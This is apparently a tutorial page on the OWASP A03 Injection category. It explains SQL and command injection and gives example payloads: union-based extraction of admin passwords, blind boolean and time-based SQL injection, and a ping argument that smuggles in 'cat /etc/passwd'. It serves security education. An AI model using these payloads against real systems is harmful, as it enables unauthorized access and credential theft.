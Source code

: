### 🥉 A03: Injection

> **Impact**: High - Complete system compromise possible

#### What is Injection?
Injection flaws occur when untrusted data is sent to an interpreter as part of a command or query. The attacker's hostile data can trick the interpreter into executing unintended commands.

#### Types of Injection
1. **SQL Injection**: Database queries
2. **Command Injection**: Operating system commands
3. **LDAP Injection**: LDAP queries
4. **XPath Injection**: XML queries
5. **NoSQL Injection**: NoSQL database queries

#### SQL Injection Deep Dive

##### Union-Based SQL Injection
```sql
-- Original query
SELECT * FROM users WHERE id = '1'

-- Malicious input
1' UNION SELECT username,password FROM admin_users--

-- Final query
SELECT * FROM users WHERE id = '1' UNION SELECT username,password FROM admin_users--'
```

##### Boolean-Based Blind SQL Injection
```sql
-- Test for vulnerability
1' AND 1=1-- (returns normal response)
1' AND 1=2-- (returns different response)

-- Extract data
1' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a'--
```

##### Time-Based Blind SQL Injection
```sql
-- MySQL example
1'; IF(1=1, SLEEP(5), 0)--

-- PostgreSQL example
1'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE 0 END--
```

#### Command Injection Examples
```bash
# Original command
ping -c 1 192.168.1.1

# Malicious input
192.168.1.1; cat /etc/passwd

# Final command
ping -c 1 192.168.1.1; cat /etc/passwd
```
